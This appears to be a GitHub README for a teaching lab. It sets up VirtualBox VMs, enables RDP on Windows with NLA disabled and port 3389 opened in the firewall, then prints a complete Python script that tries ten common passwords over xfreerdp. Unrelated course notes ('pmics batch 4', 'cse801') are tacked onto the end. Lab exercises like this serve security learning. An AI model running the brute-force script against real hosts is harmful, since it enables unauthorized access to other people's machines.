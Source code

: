 # RDP Brute-Force Attack Tool

This is a Python-based brute-force script designed for **ethical hacking** and **cybersecurity learning** in a **controlled lab environment**. It targets a Windows VM with Remote Desktop Protocol (RDP) enabled and tests a list of passwords to identify weak credentials.

>  **Disclaimer:** This tool is for educational and authorized penetration testing purposes **only**. Misuse is illegal.

---

##  Features

- Python script using `xfreerdp`
- Tests 10 common passwords from a built-in wordlist
- Simple, beginner-friendly code
- Intended for virtual lab environments only

---

##  Lab Setup Instructions

### Step 1: Setup Network in VirtualBox

- Use **Host-Only Adapter** (or Internal Network) for both VMs:
  - Go to: *VirtualBox → Settings → Network*
  - Set `Adapter 1` → `Enable Network Adapter`
  - Attached to: **Host-Only Adapter**
  - Adapter Type: `Intel PRO/1000 MT Desktop`

Repeat the same for **Windows VM**.

### Step 2: Get IP Addresses

- **Kali Linux:**  
  Run `ip a` or `ifconfig`  
  Look for something like: `192.168.56.**`

- **Windows VM:**  
  Run `cmd` → `ipconfig`  
  Find: `IPv4 Address: 192.168.56.**`

---

##  Windows RDP Configuration

### Step 3: Enable RDP

- Run: `SystemPropertiesRemote`
- Check:  Allow remote connections
- Uncheck:  “Allow connections only from computers with NLA”

## 📸RDP Enabled
![Enable RDP on Windows Machine](https://github.com/user-attachments/assets/104ea17b-0ae3-4abe-a263-2532d0c3d89b)


### Step 4: Allow RDP Through Firewall

Run the following command as **Administrator** in CMD:

```bash
netsh advfirewall firewall add rule name="Allow RDP" dir=in action=allow protocol=TCP localport=3389
```

##  Running the Python Script
### Step 5: Install FreeRDP on Kali
```bash
sudo apt update
sudo apt install freerdp2-x1
```
## Step 5.2: Test RDP Connection from Kali
```bash
xfreerdp /v:<your windows machine ip> /u:Admin /p:12345 /cert:ignore
```
  If you see the desktop or authentication prompt, it works.

### Step 6: Write the Brute-Force Script
Create the file:
```bash
nano rdp_brute.py
```
## Paste the code:
```bash
import subprocess

target_ip = "192.168.56.**"  # Change to your Windows VM IP
username = "administrator"    # Change to your Windows user

passwords = [
    "123456", "admin", "administrator", "password",    
    "admin123", "test123", "welcome", "qwerty", "1234", "56789"
]

print(f"[*] Starting brute-force on {target_ip} with username '{username}'...\n")

for attempt, password in enumerate(passwords, 1):
    print(f"[{attempt}/10] Trying password: {password}")
    try:
        result = subprocess.run(
            ["xfreerdp", f"/v:{target_ip}", f"/u:{username}", f"/p:{password}", "/cert:ignore"],
            capture_output=True, text=True, timeout=10
        )

        if "Authentication only, exit status 0" in result.stderr or result.returncode == 0:
            print(f"\n[+] SUCCESS! Password found: {password}")
            break
        else:
            print("[-] Failed.")
    except subprocess.TimeoutExpired:
        print("[!] Timeout, skipping...")
    except Exception as e:
        print(f"[!] Error: {e}")
else:
    print("\n[-] Tried all 10 passwords. No match found.")

```
Save and exit:
**Press Ctrl + O, then Enter**
**Press Ctrl + X to exit nano**

### Step 7: Run the Script

```bash
python3 rdp_brute.py
```
You’ll see it try each password and print either "Success" or "Failed"

## 📸 Successful Login
![brute_force_success](https://github.com/user-attachments/assets/ae66d164-0ae5-42ae-b071-1de4814a21c5)





# pmics batch 4
## First semester
**cse801**

```bash
dolon
```

